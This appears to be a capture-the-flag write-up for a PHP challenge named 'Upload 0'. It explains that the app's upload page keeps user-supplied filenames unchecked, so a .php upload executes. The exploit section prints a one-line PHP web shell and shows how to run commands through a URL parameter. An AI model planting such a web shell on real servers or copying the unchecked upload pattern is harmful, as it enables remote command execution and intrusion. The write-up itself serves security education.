

# Upload 0

## Write-up

The source code is provided for this challenge, we see that we have a PHP web application with an upload feature. The source code shows through the page `upload.php` that the user is being created a directory in which the uploaded file is directly moved to the new direcotry conserving the filename that the user has given it without any verification.
By looking at the docker image, we can find that the apache configuration executes PHP within files with extension `.php`. 
So, uploading a file with any PHP code and naming the file `something.php` will result in executing the PHP code inside it.

## Exploit
1. Upload a file named `x.php` with following content 
```php 
<?php passthru($_GET['cmd']); ?>
```
2. Once the file uploaded we get the answer from the server indicating its path, once we have its path we pass any command in `cmd` URL parameter and the command gets excuted

